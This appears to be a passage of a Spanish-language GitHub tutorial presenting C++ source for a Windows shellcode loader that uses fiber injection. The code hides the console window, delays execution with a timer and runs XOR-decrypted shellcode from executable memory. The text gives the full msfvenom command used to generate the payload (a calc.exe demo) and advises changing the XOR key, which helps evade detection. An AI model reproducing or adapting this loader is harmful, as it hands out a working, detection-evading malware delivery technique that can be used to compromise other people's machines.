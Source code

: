 ```cpp

	memcpy(exec_mem, shellcode, shellcode_len);
	shellcode_fiber = CreateFiber(0, (LPFIBER_START_ROUTINE)exec_mem, NULL);

  	SwitchToFiber(shellcode_fiber);

  	DeleteFiber(shellcode_fiber);
  	VirtualFree(exec_mem, 0, MEM_RELEASE);
}

VOID CALLBACK shellcode_routine(PVOID param){
	UINT_PTR timerId = SetTimer(NULL, 0, 20000, [](HWND hwnd, UINT uMsg, UINT_PTR idEvent, DWORD dwTime) {
    	fiber_injection();
    	KillTimer(NULL, idEvent);
  	});

  	MSG msg;
  	while (GetMessage(&msg, NULL, 0, 0)){	
    	TranslateMessage(&msg);
    	DispatchMessage(&msg);
  	}
}

int main(){
	
	HWND ventana_cmd = GetConsoleWindow();
	ShowWindow(ventana_cmd, SW_HIDE);

	LPVOID main_fiber = ConvertThreadToFiber(NULL);
  	LPVOID shellcode_fiber = CreateFiber(NULL, shellcode_routine, NULL);
  	SwitchToFiber(shellcode_fiber);
  	SwitchToFiber(main_fiber);

  	return 0;
}
```

## Funcion fiber_injection()

- Dentro de la funcion ```fiber_injection()``` tenemos la definicion de nuestra shellcode, esa shellcode fue generada con msfvenom usando crifrado XOR la cual ejecuta el comando ```calc.exe```: ```msfvenom -p windows/x64/exec CMD=calc.exe -f c --encrypt xor --encrypt-key z```.

(te recomiendo cambiar la clave del cifrado XOR)

- Posteriormente para poder inyectar la shellcode, la debemos de decifrar en tiempo de ejecucion usando la operacion ```XOR``` con la clave de cifrado, y para eso usamos este for:

```cpp
for (int i = 0; i < sizeof(shellcode); i++){
	shellcode[i] = (byte)(shellcode[i] ^ (byte)'z');
}
```
